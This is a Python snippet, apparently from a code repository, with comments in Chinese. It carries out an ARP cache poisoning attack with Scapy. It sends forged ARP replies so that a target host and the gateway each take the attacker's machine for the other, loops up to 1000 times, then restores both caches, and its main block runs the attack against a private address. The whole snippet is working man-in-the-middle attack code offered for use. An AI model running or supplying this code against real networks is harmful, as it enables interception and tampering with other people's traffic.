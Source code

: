 ```python
    """
    值 | 含义
    1 | ARP 请求
    2 | ARP 应答
    3 | RARP 请求
    4 | RARP 应答
    """

    # 让目标认为攻击者是网关
    target_mac = get_mac_by_ip(target_ip)
    poison_target = ARP(op=2, psrc=gateway_ip, pdst=target_ip, hwdst=target_mac)

    # 让网关认为攻击者是目标
    gateway_mac = get_mac_by_ip(gateway_ip)
    poison_gateway = ARP(op=2, psrc=target_ip, pdst=gateway_ip, hwdst=gateway_mac)

    for _ in range(1000):
        try:
            send(poison_target)
            send(poison_gateway)
            sleep(2)
        except KeyboardInterrupt:
            break

    # 恢复
    restore_target = ARP(
        op=2,
        psrc=gateway_ip,
        hwsrc=gateway_mac,
        pdst=target_ip,
        hwdst="ff:ff:ff:ff:ff:ff",
    )

    send(restore_target, count=5)

    restore_gateway = ARP(
        op=2,
        psrc=target_ip,
        hwsrc=target_mac,
        pdst=gateway_ip,
        hwdst="ff:ff:ff:ff:ff:ff",
    )

    send(restore_gateway, count=5)


if __name__ == "__main__":
    print(get_mac_by_ip("192.168.0.106"))
    arp_cache_poisoning_attack()
```
